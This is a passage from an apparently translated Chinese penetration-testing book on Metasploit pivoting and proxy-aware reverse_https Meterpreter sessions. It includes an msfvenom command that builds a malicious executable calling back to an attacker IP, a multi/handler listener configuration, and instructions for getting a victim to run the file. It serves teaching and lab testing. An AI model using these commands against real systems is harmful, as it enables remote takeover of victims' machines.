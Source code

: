 如果一切顺利，你会看到机器上有一个外壳打开。确认后，输入`ipconfig`查看机器上的网络配置。从这里开始，这只是执行我们之前遵循的过程的问题，如果你找到另一台双机，那么你可以做另一个支点并继续。以下屏幕截图显示了一个结果示例：

![Pivoting](graphics/477-1_12_22.jpg)

正如前面的截图所示，pivot 是成功的，我们现在在 metasploit 中打开了另一个会话。这通过**本地管道**|**远程管道**参考反映。完成信息审查后，输入`sessions`以显示会话信息。以下屏幕截图显示了此结果的示例：

![Pivoting](graphics/477-1_12_23.jpg)

## 代理利用

在本节中，我们将研究 metasploit 工具使用 HTTP 和 HTTPS 进行通信的能力。通常针对我们部署的防御措施之一是出口或出站流量的概念。现在，常见的情况是站点只允许出站 HTTP 和 HTTPS 流量；因此，metasploit 的开发人员为此创建了模块。

## 利用客户端配置

当我们使用技术来利用与攻击者机器的通信时，我们将读取客户端配置，然后通过在那里配置的代理发送通信量。传统上，这是一个困难的过程，需要花费相当多的时间来设置。因此，时间量和通信要求增加了被检测到的机会或会话定时中断的机会。幸运的是，我们可以探索其他选项来帮助我们实现这一点。metasploit 的开发人员创建了两个阶段，允许我们利用客户机配置，并且他们在 Meterpeter 外壳中对 HTTP 和 HTTPS 通信都有本机支持。此外，这些 stager 还提供了设置大量不同选项的功能，这些选项允许在指定的时间段内通过设置会话的过期日期来重新连接 shell。

这两个阶段是**反向【http】**和**反向【https】**。这两个阶段的独特之处在于，它们不与特定的 TCP 会话相关联，也就是说，它们提供了基于数据包的事务处理方法，而其他选项是基于流的。这就为攻击提供了一组更强大的选项。此外，我们还提供了三个选项来帮助我们确定用户何时完成操作，如下所示：

*   到期日期：默认为一周
*   **生存时间****TTL**：默认为 5 分钟
*   暴露的 API 核心：使用 detach 命令退出但不终止会话

这些参数允许我们断开与会话的连接，并在以后自动重新连接。它们还允许我们将负载设置为持久侦听器，然后连接到它，即使目标重新启动或关闭。我们现在将对此进行探讨。

在本例中，我们将使用恶意可执行文件。我们可以使用许多不同的载体，如 web、电子邮件或 USB，但为了更简单的选择，我们将使用恶意可执行文件。此外，我们将使用一个特殊的工具来创建有效负载。如果未运行 metasploit，请输入`msfconsole`以启动工具。工具启动后，输入`msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=192.168.177.170 LPORT=4443 > https.exe`创建名为`https.exe`的可执行文件。以下屏幕截图显示了该命令的输出示例：

![Leveraging the client configuration](graphics/477-1_12_24.jpg)

现在我们将设置处理程序。在 metasploit 中输入以下：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.177.170
set LPORT 4443
set SessionCommunicationTimeout 0
set ExitOnSession false
exploit –j

```

完成后的命令示例如以下屏幕截图所示：

![Leveraging the client configuration](graphics/477-1_12_25.jpg)

我们现在准备让受害者运行我们的可执行文件。将可执行文件移动到受害者机器后，双击该文件，返回 metasploit 处理程序，并观察结果。以下屏幕截图显示了一个示例：
